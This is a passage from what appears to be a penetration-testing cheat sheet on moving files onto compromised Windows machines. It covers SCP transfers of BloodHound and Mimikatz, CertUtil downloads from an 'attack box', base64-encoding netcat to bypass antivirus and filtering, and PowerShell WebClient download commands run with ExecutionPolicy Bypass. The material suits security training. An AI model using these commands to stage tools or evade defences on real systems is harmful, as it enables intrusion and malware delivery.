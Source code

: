````
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip	
````
- Download a file using SCP
````
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe	
````
## Windows Specific Downloads
### CertUtil.exe
- Windows has a built-in command line program called CertUtil.exe which is installed as part of Certificate Services and can be used to manage certificates in Windows.
- CertUtil is also known as living off land LOL binary which is a trusted preinstalled system tool.
- It can even bypass security features by base64 encoding the malware.
````
certutil -urlcache -split -f [url] [filename.extension]
certutil -urlcache -f [url] [filename.extension] [filename.extension]
````
- `-urlcache` Displays or deletes URL cache entries
- `-f` Forces fetching a specific URL and updating the cache
- `-split` Split embedded ASN.1 elements, and saves files on disk
- Using the encoding may help bypass security controls in certutil.  
- Using the `-decode` option we can download a Base-64 encoded malicious executable such as a text file and decode the executable to disk.  
- This can bypass antivirus, edge devices and filtering.  
- First we need to base64 encode the netcat executable.
````
certutil.exe -encode [inputfilename] [encoded output filename]
````
- To verify that the nc.txt file contains text, we can run the following command to print the first 10 lines to the terminal:
````
powershell -command “Get-Content nc.txt -Head 10”
````
- Now we have to transfer the text file to the target and decode it back to an executable.
````
certutil.exe -urlcache -split -f “http://[attack box ip]/nc.txt” nc.txt
````
- And the following command decodes the base64
````
certutil.exe -decode nc.txt nc.exe
````
### Powershell downloads:System.Net.WebClient
- First example uses .NET class System.Net.WebClient.
- The following commands create a Powershell script on the remote Windows machine that can be used to download the file from the attack box:
````
echo $webclient = New-Object System.Net.WebClient > httpdownload.ps1
echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1
````
- Note that you have to insert the download link and filename in the command on the last line and replace all the bold with the URL and the filename.
- Once verified that the PS script is created we can execute with:
````
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File httpdownload.ps1
````
- Alternatively we can also execute the command from a regular command line in Windows powershell to download files without creating a script
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('[Download URL]','[File Name]')"
````
- The -c option executes the command provided within the double quotes with Powershell.
````
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://172.16.3.1/nc.exe','nc.exe')"
````